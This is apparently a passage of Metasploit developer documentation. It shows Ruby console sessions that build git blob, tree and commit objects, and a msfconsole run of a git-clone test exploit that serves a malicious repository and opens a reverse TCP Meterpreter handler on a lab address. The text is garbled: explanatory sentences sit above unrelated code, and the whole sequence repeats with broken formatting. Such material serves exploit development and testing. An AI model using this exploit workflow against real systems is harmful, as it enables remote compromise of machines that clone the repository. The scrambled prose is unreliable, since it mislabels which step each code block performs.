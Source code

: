 ### Building a Repository
Let's say that the repository is something like the following:
```
>> contents = "test\n"
=> "test\n"
>> blob = Msf::Exploit::Git::GitObject.build_blob_object(contents)
=> 
#<Msf::Exploit::Git::GitObject:0x00007fe163c75cd0                                            
```

needs to be created to represent the contents of `test_file.txt`:
```
>> tree_object = Msf::Exploit::Git::GitObject.build_tree_object(tree_entry)
=> 
#<Msf::Exploit::Git::GitObject:0x00007fe161b0cd78
```

To build a blob object, the `build_blob_object()` class method should be used:
```
>> contents = "some text\n"
=> "some text\n"
>> file_blob = Msf::Exploit::Git::GitObject.build_blob_object(contents)
=> 
#<Msf::Exploit::Git::GitObject:0x00007fe163bf54b8                                              
...                                                                                            
```

where each hash looks like the following:
```
?> entries = [
?>   {
?>     mode: '100644',
?>     file_name: 'file.txt',
?>     sha1: file_blob.sha1
?>   },
?>   {
?>     mode: '040000',
?>     file_name: 'dir',
?>     sha1: tree_object.sha1
?>   }
>> ]
=> [{:mode=>"100644", :file_name=>"file.txt", :sha1=>"b649a9bf89116c581f8329b8ec3c79a86a70...
>> top_level_obj = Msf::Exploit::Git::GitObject.build_tree_object(entries)
```

And using that, the tree object can now be created:
```
>> commit_object = Msf::Exploit::Git::GitObject.build_commit_object(tree_sha1: top_level_obj.sh
a1)
=> 
#<Msf::Exploit::Git::GitObject:0x00007fe1533ac848                                              
...                                                                                            
>> commit_object
=> 
#<Msf::Exploit::Git::GitObject:0x00007fe1533ac848                                              
 @compressed=                                                                                  
  "x\x9C\x95\xCEA\x0E\xC2 \x10\x05P\xD7\x9Cb<@\r\x1DZ\xCA\xC2\x18\xE3\xCE\xA8g0XF!\xB6\xD0\x00]x{I\xED\x05\\\xCD\xE4'\xF3\xFE\xF4a\x1C]\x06\x14j\x93#\x11pe\b\el5u]cL#\xD1\x18\xC9\x05\x97\x92\x04*\xF3h\xA5P}\xC7\x89\xE99\xDB\x10\xE1\xEA\x92\xF6&j\xB8\xCC\x93\xD5\x03\xEC\xDF\xCB\xBC\x0Fk~\xB43\ri\xE7)\x1F\xA0\xAEU[\x10l\x05T\x85\xE4\xAC_\xCA3\xFD\xC7\xA8\x0E%\nQ\xE3\xAA\xB0\xB3w\xD9\x95\xA3\x1F\a9@\x98\xC8\xC3\xAB\xEC\x91\xA6\x90\\\x0E\xF1\x03\xCF\xF2\xED\xC9\xF9T\xDD\x82\x8D[\xF6\x05s\xF7P\x89",                                                                       
 @content=                                                                                     
  "tree 08de2425ae774dd462dd603066e328db5638c70e\nauthor Lisandra Kuphal <kuphal_lisandra@huels.net> 1185328253 -0300\ncommitter Lisandra Kuphal <kuphal_lisandra@huels.net> 872623312 -0300\n\nInitial commit to open git repository for Bins-Mohr!\n",
 @path="01/8856fe17403b0991e5d1d3eb7f62dca4d8e951",
 @sha1="018856fe17403b0991e5d1d3eb7f62dca4d8e951",
 @type="commit">
```

Again, a blob object needs to be created to represent the contents of the remaining file:
```msf
msf6 > use exploit/multi/http/git_clone_test
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(multi/http/git_clone_test) > set srvport 9999
srvport => 9999
msf6 exploit(multi/http/git_clone_test) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf6 exploit(multi/http/git_clone_test) > set srvhost 192.168.140.1
srvhost => 192.168.140.1
msf6 exploit(multi/http/git_clone_test) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

msf6 exploit(multi/http/git_clone_test) > [*] Started reverse TCP handler on 192.168.140.1:4444 
[*] Using URL: http://192.168.140.1:9999/MOYuJfC
[*] Server started.
[*] Git repository to clone: http://192.168.140.1:9999/y-find.git
```

`
>> contents = "test\n"
=> "test\n"
>> blob = Msf::Exploit::Git::GitObject.build_blob_object(contents)
=> 
#<Msf::Exploit::Git::GitObject:0x00007fe163c75cd0                                            
`

`
>> tree_object = Msf::Exploit::Git::GitObject.build_tree_object(tree_entry)
=> 
#<Msf::Exploit::Git::GitObject:0x00007fe161b0cd78
`

`
>> contents = "some text\n"
=> "some text\n"
>> file_blob = Msf::Exploit::Git::GitObject.build_blob_object(contents)
=> 
#<Msf::Exploit::Git::GitObject:0x00007fe163bf54b8                                              
...                                                                                            
`

`
?> entries = [
?>   {
?>     mode: '100644',
?>     file_name: 'file.txt',
?>     sha1: file_blob.sha1
?>   },
?>   {
?>     mode: '040000',
?>     file_name: 'dir',
?>     sha1: tree_object.sha1
?>   }
>> ]
=> [{:mode=>"100644", :file_name=>"file.txt", :sha1=>"b649a9bf89116c581f8329b8ec3c79a86a70...
>> top_level_obj = Msf::Exploit::Git::GitObject.build_tree_object(entries)
`

`
>> commit_object = Msf::Exploit::Git::GitObject.build_commit_object(tree_sha1: top_level_obj.sh
a1)
=> 
#<Msf::Exploit::Git::GitObject:0x00007fe1533ac848                                              
...                                                                                            
>> commit_object
=> 
#<Msf::Exploit::Git::GitObject:0x00007fe1533ac848                                              
 @compressed=                                                                                  
  "x\x9C\x95\xCEA\x0E\xC2 \x10\x05P\xD7\x9Cb<@\r\x1DZ\xCA\xC2\x18\xE3\xCE\xA8g0XF!\xB6\xD0\x00]x{I\xED\x05\\\xCD\xE4'\xF3\xFE\xF4a\x1C]\x06\x14j\x93#\x11pe\b\el5u]cL#\xD1\x18\xC9\x05\x97\x92\x04*\xF3h\xA5P}\xC7\x89\xE99\xDB\x10\xE1\xEA\x92\xF6&j\xB8\xCC\x93\xD5\x03\xEC\xDF\xCB\xBC\x0Fk~\xB43\ri\xE7)\x1F\xA0\xAEU[\x10l\x05T\x85\xE4\xAC_\xCA3\xFD\xC7\xA8\x0E%\nQ\xE3\xAA\xB0\xB3w\xD9\x95\xA3\x1F\a9@\x98\xC8\xC3\xAB\xEC\x91\xA6\x90\\\x0E\xF1\x03\xCF\xF2\xED\xC9\xF9T\xDD\x82\x8D[\xF6\x05s\xF7P\x89",                                                                       
 @content=                                                                                     
  "tree 08de2425ae774dd462dd603066e328db5638c70e\nauthor Lisandra Kuphal <kuphal_lisandra@huels.net> 1185328253 -0300\ncommitter Lisandra Kuphal <kuphal_lisandra@huels.net> 872623312 -0300\n\nInitial commit to open git repository for Bins-Mohr!\n",
 @path="01/8856fe17403b0991e5d1d3eb7f62dca4d8e951",
 @sha1="018856fe17403b0991e5d1d3eb7f62dca4d8e951",
 @type="commit">
`

`msf
msf6 > use exploit/multi/http/git_clone_test
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(multi/http/git_clone_test) > set srvport 9999
srvport => 9999
msf6 exploit(multi/http/git_clone_test) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf6 exploit(multi/http/git_clone_test) > set srvhost 192.168.140.1
srvhost => 192.168.140.1
msf6 exploit(multi/http/git_clone_test) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

msf6 exploit(multi/http/git_clone_test) > [*] Started reverse TCP handler on 192.168.140.1:4444 
[*] Using URL: http://192.168.140.1:9999/MOYuJfC
[*] Server started.
[*] Git repository to clone: http://192.168.140.1:9999/y-find.git
`

